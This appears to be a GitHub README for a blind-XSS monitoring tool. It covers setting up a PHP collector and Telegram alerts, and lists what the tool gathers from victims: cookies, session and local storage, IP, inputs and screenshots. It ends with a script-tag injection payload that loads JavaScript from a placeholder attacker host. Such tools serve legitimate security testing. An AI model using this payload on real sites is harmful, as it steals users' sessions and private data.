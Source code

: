 # XSS Monitor tool for OOB Blind-XSS
 
The XSS-Monitor Tool is provided for educational purposes only.

**Created By** : ​🅰🆁🆂🅷🅸🆈🅰
 
This tool is designed for testing XSS vulnerabilities and helping make the Internet and Web applications more secure. By using this tool, you get this item from user load xss : 

Cookies ,
Location,
UserAgent,
User ip,
Local Data,
Session Data,
Inputs item,
Page HTML source code,
Page Title,
ScreenShot of page

## How to install :

  1.Upload alert.php , eksss.js on your host
  
  2.change "https://YourSiteName.com/alert.php" in eksss.js to your host and path of PHP file and save it.
  
  3.open alert.php and set your information of Database config 

  ```php
      $servername = "localhost";
      $username = "UserDB_xss";
      $password = "PAS-DB";
      $dbname = "DB-name_monitor"
  ```

  4.set Telegram Bot information and ChatID Acount which you want to be notified :

  ```php
      $token = "**********Bot_Token***************";
      $chat_id = "****YourTelegramChatID";
  ```
      
  5.save alert.php 

## How to Use:

  use this payload for test :

```js
   <script src=https://YourSiteName.com/eksss.js></script>
```  
